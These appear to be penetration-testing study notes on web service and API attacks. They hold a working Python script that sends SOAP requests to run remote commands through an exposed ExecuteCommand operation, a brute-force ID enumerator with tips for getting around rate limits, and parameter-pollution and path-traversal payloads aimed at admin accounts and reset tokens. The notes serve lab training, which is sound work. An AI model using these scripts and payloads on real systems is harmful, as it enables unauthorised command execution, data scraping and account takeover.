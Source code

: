 # Web Service & API Attacks

Web services enable applications to communicate with each other. An application programming interface (API) is a set of rules that enables data transmission between different software, they are not the same.

### <mark style="color:yellow;">Web Services Description Language (WSDL)</mark>

WSDL is an XML-based file exposed by web services that informs clients of the provided services/methods. WSDl files can be hid by developers to preve abuse but can be found by fuzzing.

Example url:

```shell-session
curl http://<TARGET IP>:3002/wsdl?wsdl 
```

In the WSDL file look for

```xml
<wsdl:operation name="ExecuteCommand">
<soap:operation soapAction="ExecuteCommand" style="document"/>
```

Which shows a cmd parameter.

```xml
      <s:element name="ExecuteCommandRequest">
        
        <s:complexType>
          <s:sequence>
            <s:element minOccurs="1" maxOccurs="1" name="cmd" type="s:string"/>
          </s:sequence>
        </s:complexType>
        
      </s:element>
```

We can build a python script to send a xml request and RCE.

```python
import requests
import sys
import re
from xml.etree import ElementTree

# Check if command argument is provided
if len(sys.argv) < 2:
    print("Usage: python script.py <command>")
    sys.exit(1)

cmd = sys.argv[1]

# Create the XML payload with the command inserted
payload = '''<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope
 xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
 xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
 xmlns:tns="http://tempuri.org/"
 xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">
 <soap:Body>
 <LoginRequest xmlns="http://tempuri.org/">
 <cmd>''' + cmd + '''</cmd>
 </LoginRequest>
 </soap:Body>
</soap:Envelope>'''

response = requests.post(
    "http://10.129.206.216:3002/wsdl",
    data=payload,
    headers={"SOAPAction": '"ExecuteCommand"'}
)

# Extract just the result using regex (simpler than parsing XML with namespaces)
result_match = re.search(r'<result>(.*?)</result>', response.content.decode(), re.DOTALL)
if result_match:
    result = result_match.group(1)
    print(result)
else:
    print("Couldn't extract result from response")
```

## API attacks

Check for possible parameters

```bash
ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/burp-parameter-names.txt" -u 'http://<TARGET IP>:3003/?FUZZ=test_value' -fs 19
```

Finding something `curl http://:3003/?id=1` . Retreive all id's with this script. If there is a rate limit then bypass it through headers like X-Forwarded-For or X-Forwarded-IP, etc.

```python
import requests, sys

def brute():
    try:
        value = range(10000)
        for val in value:
            url = sys.argv[1]
            r = requests.get(url + '/?id='+str(val))
            if "position" in r.text:
                print("Number found!", val)
                print(r.text)
    except IndexError:
        print("Enter a URL E.g.: http://<TARGET IP>:3003/")

brute()
```

Check for possible endpoints like or in API documentation

<pre class="language-html"><code class="lang-html">GET /api/books HTTP/1.1
Host: example.com

<strong># Then finding
</strong>/api/books/mystery
</code></pre>

### <mark style="color:yellow;">server-side parameter pollution</mark>

To test for server-side parameter pollution in the query string, place query syntax characters like `#`, `&`, and `=` in your input and check responses. Use a URL-encoded `#` character to attempt to truncate the server-side request.

{% hint style="info" %}
Use URL encoded chars.
{% endhint %}

#### Truncate query strings with `%23foo`.

```
GET /userSearch?name=peter%23foo&back=/home
```

If you get invalid name the app may have treated foo as part of username.

```
GET /users/search?name=peter#foo&publicProfile=true
```

#### Injecting invalid parameters like `%26foo=xyz`.

```
GET /userSearch?name=peter%26foo=xyz&back=/home
```

This results in the following server-side request to the internal API:

```
GET /users/search?name=peter&foo=xyz&publicProfile=true
```

#### Injecting valid parameters

Override original parameter to check for server-side parameter pollution.

```
GET /userSearch?name=peter%26name=carlos&back=/home
```

#### Overriding existing parameters

To check wether application is vulnerable to server-side paremeter pollution override the original parameter by injecting a second parameter with the same name.

```
# Input
GET /userSearch?name=peter%26name=carlos&back=/home

# Send request
GET /users/search?name=peter&name=carlos&publicProfile=true
```

#### Things to try in short

```html
<!-- Try &x=y bur url encoded-->
username=administrator%26x=y

<!-- Truncate query string with encoded, this could give info back like field not specified suggesting there is a field parameter. # -->
username=administrator%23

<!-- Bruteforce and or change value of the field parameter-->
username=administrator%26field=email%23

<!-- In example a reset token paraemter in .js file was found-->
username=administrator%26field=reset_token%23

```

### <mark style="color:yellow;">server-side parameter pollution in REST paths</mark>

When there is a api for example using. `GET /api/private/users/peter` .

We can try path traversal to change the user from peter to admin. Use url encoding

```
# Payload
GET /edit_profile.php?name=peter%2f..%2fadmin

# Request
GET /api/private/users/peter/../admin
```
